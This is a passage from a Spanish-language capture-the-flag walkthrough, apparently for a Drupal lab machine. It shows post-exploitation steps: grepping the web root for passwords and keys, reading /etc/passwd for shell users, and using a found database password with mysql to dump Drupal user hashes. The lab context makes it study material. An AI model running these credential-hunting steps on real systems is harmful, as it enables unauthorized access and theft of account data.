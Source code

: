 ### Investigamos la maquina {-}

```bash
pwd
#Output
/var/www/html

ls -l
#Output
muchas cosas

grep -r -E -i "user|pass|key"
#Output
muchas cosas

grep -r -E -i "username|pass|key"
#Output
muchas cosas
```

Como hay muchas cosas y es dificil de analizar usamos el comando `find` y vamos quitando con el comando `grep -v` las cosas que no 
nos interresan poco a poco.

```bash
find \-type -f 2>/dev/null
find \-type -f 2>/dev/null | grep -v "themes"
find \-type -f 2>/dev/null | grep -v -E "themes|modules"
```

Ahora ya se puede investigar manualmente. Apuntamos los recursos que parecen interesantes.

- authorize.php
- cron.php
- includes/database
- includes/password.inc
- sites/default/

Lo miramos hasta que encontremos cosas interesantes. En un fichero encontramos un user **drupaluser** y su contraseña.

Miramos los usuarios de la maquina 

```bash
grep "sh$" /etc/passwd
#Output
root
brucetherealadmin
```

Como el servicio ssh esta abierto miramos si la contraseña functiona con el usuario brucetherealadmin pero no functiona.

Como hemos visto ficheros *mysql* intentamos conectar con el **drupaluser** y functiona.

```bash
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'show databases;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; show tables;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; describe users;'
mysql -u 'drupaluser' -p "SLKDENkldajsn!!$" -e 'use drupal; select name,pass from users;'
```
